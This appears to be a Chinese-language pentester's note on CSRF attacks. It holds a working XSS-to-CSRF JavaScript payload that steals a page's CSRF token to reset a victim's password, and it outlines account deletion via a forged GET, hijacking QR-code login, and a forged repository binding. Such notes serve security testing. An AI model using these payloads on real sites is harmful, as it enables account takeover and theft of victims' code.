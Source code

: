 xss无法获取cookie造成危害的时候，尝试csrf，通过写payload获取csrftoken
ex.
```
var reg = new XMLHttpRequest();
reg.onload = reqListener; // 确保变量名一致
reg.open("POST", "https://test.com/profile/password", true);
reg.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
reg.withCredentials = true;
reg.send("user[password]=passwordtest&userpassword_confirmation=passwordtest&_csrf=" + document.querySelector("head > meta:nth-child(14)").content);

function reqListener() {
    var data = this.responseText;
    alert(data);
}
```

账号注销案例
ex.
```
POST /applications/ChangeUserInfo HTTP/1.1 

{
"username":""
"head":""
}
```
直接改为get请求，相当于直接没有参数，发给受害者就直接删除了账号.

二维码csrf
https://mp.weixin.qq.com/s/soms88YZP4GLAxy4fajQFg
二维码登陆流程
1. 服务器生成token，并且一直请求查看token被谁用了
2. 用户扫码确认登陆，通过cookie等方式把自己账号和该token绑定
3. 浏览器识别到token被使用，于是登陆到该账号
如何利用？
制作确认登陆那一步的数据包的poc发给受害者，让他和token绑定，然后我们的浏览器就登陆到受害者的账号了
![[c4a6ec97f16ba311b8fce47d55bfd34.jpg]]
二维码实际上的请求
![[55a16b78ccb00ada29377a7aafd1037.jpg]]

csrf仓库代码泄露案例
构造poc，让他在业务上登陆攻击者账号之后，请求绑定受害者的代码库。分两部分，第一部分通过抓登陆包抓到登陆的请求构造poc，第二步抓自动授权绑定的请求